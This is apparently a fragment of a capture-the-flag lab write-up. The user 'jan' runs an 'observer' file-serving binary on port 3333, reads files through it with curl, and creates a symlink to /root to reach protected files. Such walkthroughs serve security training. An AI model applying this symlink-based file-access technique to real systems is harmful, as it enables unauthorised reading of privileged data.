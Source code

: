 `chmod u+x ./observer`

`./observer`

`netstat -antp`:
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:39055         0.0.0.0:*               LISTEN      761/containerd      
tcp        0      0 192.168.56.118:59028    192.168.56.122:22       ESTABLISHED 45381/ssh           
tcp6       0      0 :::3333 ←               :::*                    LISTEN      112843/./observer ←
```

`curl localhost:3333`:
```            
OBSERVING FILE: /home/ NOT EXIST 


<!-- XVlBzgbaiCMRAjWwhTHctcuAxhxKQFHMV -->   
```

`curl localhost:3333/kali/.bashrc`:
```
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

[...]
```

![Victim: jan](https://img.shields.io/badge/Victim-jan-64b5f6?logo=linux&logoColor=white)

`ln -s /root root_link`

`ls -alps`:
```
total 44
4 drwx------ 4 jan  jan  4096 sep 24 15:33 ./
4 drwxr-xr-x 3 root root 4096 ago 21  2023 ../
4 -rw------- 1 jan  jan   133 ago 21  2023 .bash_history
4 -rw-r--r-- 1 jan  jan   220 ago 21  2023 .bash_logout
4 -rw-r--r-- 1 jan  jan  3526 ago 21  2023 .bashrc
4 -rw------- 1 jan  jan    20 sep 24 13:27 .lesshst
4 drwxr-xr-x 3 jan  jan  4096 ago 21  2023 .local/
4 -rw-r--r-- 1 jan  jan   807 ago 21  2023 .profile
0 lrwxrwxrwx 1 jan  jan     5 sep 24 15:33 root_link -> /root/ ←
4 drwx------ 2 jan  jan  4096 ago 21  2023 .ssh/
4 -rw------- 1 jan  jan    24 ago 21  2023 user.txt
4 -rw------- 1 jan  jan    54 ago 21  2023 .Xauthority
```
